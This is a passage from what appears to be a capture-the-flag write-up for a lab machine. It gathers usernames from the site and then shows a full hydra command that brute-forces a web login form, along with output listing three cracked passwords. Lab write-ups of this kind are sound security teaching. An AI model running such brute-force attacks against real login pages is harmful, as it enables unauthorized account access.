 I’ll collect some more usernames. Along with a troll for `user.txt`, there are some hints:
- There’s RCE somewhere in the website.
- Kaneki has a remote server.
- There’s a “fake art site” for uploading pictures. Uploading is always a good thing to find and check out.

#### /users

The page presents a login:

![1558209630986](https://0xdfimages.gitlab.io/img/1558209630986.png)

I’ve collected a list of names from the port 80 website:

```

tatara  <-- secret.php
noro    <-- secret.php
kaneki  <-- secret.php
eto     <-- secret.php
aogiri  <-- /
anteiku <-- blog
mado    <-- blog
amon    <-- blog
root    <-- guess
admin   <-- author of blog posts
administrator <-- guess

```

And I can brute force it and get some successful logins. On a failed login attempt, it adds a message:

![1558209959168](https://0xdfimages.gitlab.io/img/1558209959168.png)

I’ll use that as my failure criteria, and run `hydra`:

```

root@kali# hydra -L users -P /usr/share/seclists/Passwords/twitter-banned.txt 10.10.10.101 http-post-form "/users/login.php:Username=^USER^&Password=^PASS^&Submit=Login:Invalid Login Detai
ls"
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-05-18 16:11:19
[DATA] max 16 tasks per 1 server, overall 16 tasks, 4367 login tries (l:11/p:397), ~273 tries per task
[DATA] attacking http-post-form://10.10.10.101:80/users/login.php:Username=^USER^&Password=^PASS^&Submit=Login:Invalid Login Details                                                                                       
[80][http-post-form] host: 10.10.10.101   login: noro   password: password123
[80][http-post-form] host: 10.10.10.101   login: kaneki   password: 123456
[STATUS] 1360.00 tries/min, 1360 tries in 00:01h, 3007 to do in 00:03h, 16 active
[STATUS] 1120.00 tries/min, 2240 tries in 00:02h, 2127 to do in 00:02h, 16 active
[STATUS] 1038.33 tries/min, 3115 tries in 00:03h, 1252 to do in 00:02h, 16 active
[80][http-post-form] host: 10.10.10.101   login: admin   password: abcdef
[STATUS] 1086.50 tries/min, 4346 tries in 00:04h, 21 to do in 00:01h, 16 active
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-05-18 16:15:21

```
